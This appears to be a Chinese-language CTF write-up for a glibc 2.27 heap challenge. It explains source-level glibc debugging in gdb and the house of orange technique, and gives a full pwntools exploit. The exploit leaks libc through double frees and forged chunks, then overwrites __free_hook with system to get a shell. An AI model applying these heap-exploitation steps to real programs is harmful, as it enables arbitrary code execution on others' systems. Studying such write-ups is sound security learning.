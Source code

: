 # 知识点
- fastbin attack
- "fake" house of orange

# 收获
- gdb 源码级调试glibc
- house of orange 基本原理
## gdb 源码级调试
下载所需版本的glibc源码
```shell
sudo apt-get install libc6-dbg
sudo apt-get install glibc-source
cd /usr/src/glibc
sudo tar xvf glibc-x.xx.tar.xz
```
在gdb中使用:
```shell
dir /usr/src/glibc/glibc-x.xx/malloc
```
即可开始调试。
## house of orange 基本原理及在本题中的应用
house of orange简单来说就是利用溢出或者任意地址写的前置漏洞来修改topchunk的size字段，将其改小，从而可以通过若干次malloc来竭尽topchunk的空间，迫使ptmalloc将不足以满足用户需求的topchunk free到unsorted bin中。
这里之所以要改小topchunk的size而不是直接malloc一个超大的块，是因为如果申请的堆块大小超过了128k，ptmalloc就会调用mmap来申请内存，而不是brk，这样就不能影响到topchunk了。
修改topchunk的size有四个限制：
1.	伪造的 size 必须要对齐到内存页

2.	size 要大于 MIN_CHUNK_SIZE(0x10)

3.	size 要小于之后申请的 chunk size + MIN_CHUNK_SIZE(0x10)

4.	size 的 prev inuse 位必须为 1

这样的手法主要用于
- 不能调用free函数的情况（它能够触发free(topchunk)）；
- 不能通过常规方式泄露libc地址的情况（如本题）。

本题的关键难点在于如何泄露libc地址。由于题目限制，无法通过malloc和free将堆块放到unsorted bin这样的双向链表中。
通过上述的house of orange 似乎可以方便地泄露libc地址，但是实验发现topchunk在
![image.png](0)
通过学习和调试，了解了glibc-2.27在topchunk大小无法满足用户申请的内存大小后：
1. 先调用`malloc_consolidate`,将内存中相邻的、已经被free的堆块都合并，放在unsorted bin中；
2. 判断unsored bin 中的块是否符合用户需求，如不符合，将该块放入对应大小的bin中，（本题中是small bin，符合unsorted bin 的逻辑)
3. topchunk此时的大小还是不足，但是可能是由于smallbin里面有没被使用的内存块，且大小足够大，因此ptmalloc没有调用sysmalloc从系统申请新的topchunk，而是从smallbin里取出那块内存进行分割，剩余部分存放在unsorted bin，并且在last_remainder中也有地址记录。
4. 上一步中存放在unsorted bin中的块在本题中可以被利用来泄露libc地址。
# exp
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"
io = process("./pwn")#,env={"LD_PRELOAD":"./libc.so.6"}
def add(idx,size,content):
    io.sendline("1")
    io.recvuntil("index\n")
    io.sendline(str(idx))
    io.recvuntil("size\n")
    io.sendline(str(size))
    io.recvuntil("something\n")
    io.sendline(content)
    io.recvuntil("gift :")
    heap_addr = io.recvline()
    return heap_addr
def remove(idx):
    io.sendline("2")
    io.recvuntil("index")
    io.sendline(str(idx))

heap_addr = int(add(0,0x50,"/bin/sh\x00"),16)
add(1, 0x48, 'aaa\x80bbb')

top_addr = heap_addr + 160

remove(0)
remove(0)
remove(0)
add(2, 0x50, p64(top_addr)*2)
add(3, 0x50, p64(top_addr)*2)
add(4, 0x50, p64(0xf1)*2)

for i in range(8):
    remove(1)
for i in range(8):
    remove(0)

add(5, 0x78, 'aaa\x80bbb')
gdb.attach(io)
add(6, 0x78, 'aaa\x80bbb')
add(7,0x48,'emmm')

libc_base = int(add(8,0x48,p64(top_addr)*2),16)- 4111520
#libc_base = int(add(8,0x48,"123456"),16)- 4111520 #???????? this add modify top chunk addr ??
libc = ELF("./mlibc")
system_addr = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
print("[+]system addr:0x%x"%system_addr)
print("[+]free_hook addr:0x%x"%free_hook)

remove(0)
remove(0)
remove(0)

add(9,0x50,p64(free_hook)*2)
add(10,0x50,p64(free_hook)*2)
add(11,0x50,p64(system_addr))
add(12,0x30,"/bin/sh\x00")
remove(12)
io.interactive()

```

# 待解决
1. 为什么`libc_base = int(add(8,0x48,"12345"),16)- 4111520`会修改topchunk的指针？